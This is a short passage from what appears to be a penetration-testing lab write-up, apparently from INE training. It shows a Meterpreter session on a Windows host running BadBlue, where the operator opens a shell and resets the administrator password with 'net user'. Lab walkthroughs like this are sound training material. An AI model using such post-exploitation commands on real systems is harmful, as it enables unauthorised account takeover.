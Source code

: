 ![Windows-Logs-System.png](/img/in-post/ine/Windows-Logs-System.png)

```
meterpreter > shell
Process 656 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\BadBlue\EE>net user administrator password_123321   
net user administrator password_123321
The command completed successfully.

```

![QQ图片20230303195724.png](/img/in-post/ine/QQ图片20230303195724.png)
